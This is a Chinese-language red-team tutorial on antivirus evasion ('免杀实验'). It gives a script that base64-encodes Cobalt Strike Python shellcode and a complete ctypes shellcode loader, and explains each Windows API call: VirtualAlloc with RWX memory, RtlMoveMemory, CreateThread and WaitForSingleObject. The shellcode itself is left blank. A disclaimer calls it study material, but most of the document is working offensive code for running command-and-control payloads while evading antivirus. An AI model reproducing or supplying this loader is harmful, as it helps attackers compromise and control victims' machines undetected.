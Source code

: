 # 免杀实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 加载器

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/2.png)

**加载器 + base64**

cs 生成 Python shellcode x64

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/1.png)

base64 加密 shellcode
```py
# coding=utf-8
import base64

shellcode = open('payload.py')
shellcode = shellcode.read()
s1=shellcode.find("\"")+1
s2=shellcode.rfind("\"")
shellcode= shellcode[s1:s2]

base64_shellcode = base64.b64encode(shellcode.encode('UTF-8'))
with open('base64.txt', 'wb') as shell:
    shell.write(base64_shellcode)
print(base64_shellcode)

```

添加到加载器,加载器的大致原理就是申请一块内存，将代码字节存入该内存，然后开始运行该内存储存的程序，并让该程序一直运行下去。
```py
import base64
import codecs
import ctypes

shellcode = ""
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

- ctypes 库

    python 的 ctypes 模块是内建，用来调用系统动态链接库函数的模块

    使用 ctypes 库可以很方便地调用 C 语言的动态链接库，并可以向其传递参数。
    ```py
    import ctypes
    ```

- 读取shellcode

    将 shellcode 生成后，使用 base64 编码，后面操作是将代码写入内存，所以需要将代码解码并转为字节类型
    ```py
    shellcode = ""
    shellcode = base64.b64decode(shellcode)
    shellcode = codecs.escape_decode(shellcode)[0]
    shellcode = bytearray(shellcode)
    ```

- 设置返回类型

    我们需要用 VirtualAlloc 函数来申请内存，返回类型必须和系统位数相同

    想在 64 位系统上运行，必须使用 restype 函数设置 VirtualAlloc 返回类型为 ctypes.c_unit64，否则默认的是 32 位
    ```py
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ```

- 申请内存

    调用 VirtualAlloc 函数，来申请一块动态内存区域,VirtualAlloc 函数原型和参数如下：
    ```py
    LPVOID VirtualAlloc{
        LPVOID lpAddress,       # 要分配的内存区域的地址
        DWORD dwSize,           # 分配的大小
        DWORD flAllocationType, # 分配的类型
        DWORD flProtect         # 该内存的初始保护属性
    };
    ```

    申请一块内存可读可写可执行
    ```py
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
    # ctypes.c_int(0) 是 NULL，系统将会决定分配内存区域的位置，并且按 64KB 向上取整
    # ctypes.c_int(len(shellcode)) 以字节为单位分配或者保留多大区域
    # ctypes.c_int(0x3000) 是 MEM_COMMIT(0x1000) 和 MEM_RESERVE(0x2000) 类型的合并
    # ctypes.c_int(0x40) 是权限为 PAGE_EXECUTE_READWRITE 该区域可以执行代码，应用程序可以读写该区域。
    ```

- 将 shellcode 载入内存

    调用 RtlMoveMemory 函数，此函数从指定内存中复制内容至另一内存里。RtlMoveMemory 函数原型和参数如下:
    ```py
    RtlMoveMemory(Destination,Source,Length);
    Destination     # 指向移动目的地址的指针。
    Source          # 指向要复制的内存地址的指针。
    Length          # 指定要复制的字节数。
    ```

    从指定内存地址将内容复制到我们申请的内存中去，shellcode 字节多大就复制多大
    ```py
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(
        ctypes.c_uint64(ptr),
        buf,
        ctypes.c_int(len(shellcode))
    )
    ```

- 创建进程

    调用 CreateThread 将在主线程的基础上创建一个新线程, CreateThread 函数原型和参数如下：
    ```py
    HANDLE CreateThread(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,   # 线程安全属性
        SIZE_T dwStackSize,                         # 置初始栈的大小，以字节为单位
        LPTHREAD_START_ROUTINE lpStartAddress,      # 指向线程函数的指针
        LPVOID lpParameter,                         # 向线程函数传递的参数
        DWORD dwCreationFlags,                      # 线程创建属性
        LPDWORD lpThreadId                          # 保存新线程的id
    )
    ```

    创建一个线程从 shellcode 放置位置开始执行
    ```py
    handle = ctypes.windll.kernel32.CreateThread(
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.c_uint64(ptr),
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.pointer(ctypes.c_int(0))
    )
    # lpThreadAttributes 为 NULL 使用默认安全性
    # dwStackSize 为 0，默认将使用与调用该函数的线程相同的栈空间大小
    # lpStartAddress 为 ctypes.c_uint64(ptr)，定位到申请的内存所在的位置
    # lpParameter 不需传递参数时为 NULL
    # dwCreationFlags 属性为 0，表示创建后立即激活
    # lpThreadId 为 ctypes.pointer(ctypes.c_int(0)) 不想返回线程 ID, 设置值为 NULL
    ```

- 等待线程结束

    调用 WaitForSingleObject 函数用来检测线程的状态, WaitForSingleObject 函数原型和参数如下：
    ```py
    DWORD WINAPI WaitForSingleObject(
        __in HANDLE hHandle,        # 对象句柄。可以指定一系列的对象
        __in DWORD dwMilliseconds   # 定时时间间隔
    );
    ```

    等待创建的线程运行结束
    ```py
    ctypes.windll.kernel32.WaitForSingleObject(
        ctypes.c_int(handle),
        ctypes.c_int(-1)
    )
    ```

    这里两个参数，一个是创建的线程，一个是等待时间
    - 当线程退出时会给出一个信号，函数收到后会结束程序。
    - 当时间设置为0或超过等待时间，程序也会结束，所以线程也会跟着结束。
    正常的话我们创建的线程是需要一直运行的，所以将时间设为负数，等待时间将成为无限等待，程序就不会结束。

---

## Source & Reference

- [免杀 - shellcode简单混淆BypassAv](https://mp.weixin.qq.com/s/LkOmSNw7YgD7yfXkIrofHQ)
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
